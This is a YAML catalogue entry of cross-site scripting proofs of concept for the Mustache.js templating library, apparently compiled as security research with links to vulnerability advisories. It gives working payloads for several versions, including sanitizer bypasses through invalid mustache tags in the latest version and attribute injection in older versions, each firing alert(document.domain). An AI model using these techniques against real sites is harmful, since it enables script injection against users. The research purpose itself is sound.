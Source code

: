 ```yaml
---
description: Minimal templating with {{mustaches}} in JavaScript
github: janl/mustache.js
gadgets:
  Latest:
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - a-tag
      - href-attr
      - any-attr
      - func-call-parameter
    pocs:
      - description: In the case of sanitized input, it may be possible to exploit the null replacement behavior in [Mustache.js](https://github.com/janl/mustache.js) templates to bypass the sanitizer when an invalid template is used.
        code: |
          <!-- user input -->
          <div id="template"><a href="java{{a" x="}}script:alert(document.domain)">Click Me</a></div>

          <script src="https://unpkg.com/mustache@latest"></script>
          <script>
            const template = document.getElementById("template").innerHTML;
            const rendered = Mustache.render(template, { name: "<h1>hello</h1>" });
            document.getElementById("template").innerHTML = rendered;
          </script>
      - description: The same behavior can be abused in case of 2 **raw** injection points.
        code: |
          <div id="template">
            <img src="[current-location]/<!-- user input 1 -->{{">
            <div>Random Text</div>
            <!-- user input 2 -->}}" onerror="alert(document.domain)">
            <div>Random Text</div>
          </div>

          <script src="https://unpkg.com/mustache@latest"></script>
          <script>
            const template = document.getElementById("template").innerHTML;
            const rendered = Mustache.render(template, { name: "<h1>hello</h1>" });
            document.getElementById("template").innerHTML = rendered;
          </script>
  ≤2.2.0:
    authors:
      - github:vikstrous
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - any-attr
      - func-call-parameter
    pocs:
      - description: The [Mustache.js](https://github.com/janl/mustache.js) library did not prevent unquoted templated attribute values from adding arbitrary new attributes containing spaces.
        code: |
          <div id="template"></div>

          <script src="https://cdnjs.cloudflare.com/ajax/libs/mustache.js/2.2.0/mustache.min.js"></script>
          <script>
            const rendered = Mustache.render(`<img src={{userinput}}>`, { userinput: "a onerror=alert(document.domain)" });
            document.getElementById("template").innerHTML = rendered;
          </script>
    links:
      - https://security.snyk.io/vuln/SNYK-DOTNET-MUSTACHE-60190
      - https://github.com/janl/mustache.js/commit/378bcca8a5cfe4058f294a3dbb78e8755e8e0da5
  ≤0.3.0:
    authors:
      - github:vikstrous
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - any-attr
      - func-call-parameter
    pocs:
      - description: The [Mustache.js](https://github.com/janl/mustache.js) library wasn't properly handling replacements in attributes, allowing them to be escaped with a user-controlled value.
        code: |
          <script src="https://cdnjs.cloudflare.com/ajax/libs/mustache.js/0.3.0/mustache.min.js"></script>

          <script>
            document.write(Mustache.to_html(
              `<input value="{{val}}" />`, {
              // user input
              val: `maybe" onclick="alert(document.domain);" nothing="`
            }));
          </script>
    links:
      - https://security.snyk.io/vuln/SNYK-DOTNET-MUSTACHE-60189
      - https://github.com/janl/mustache.js/issues/112
---
```

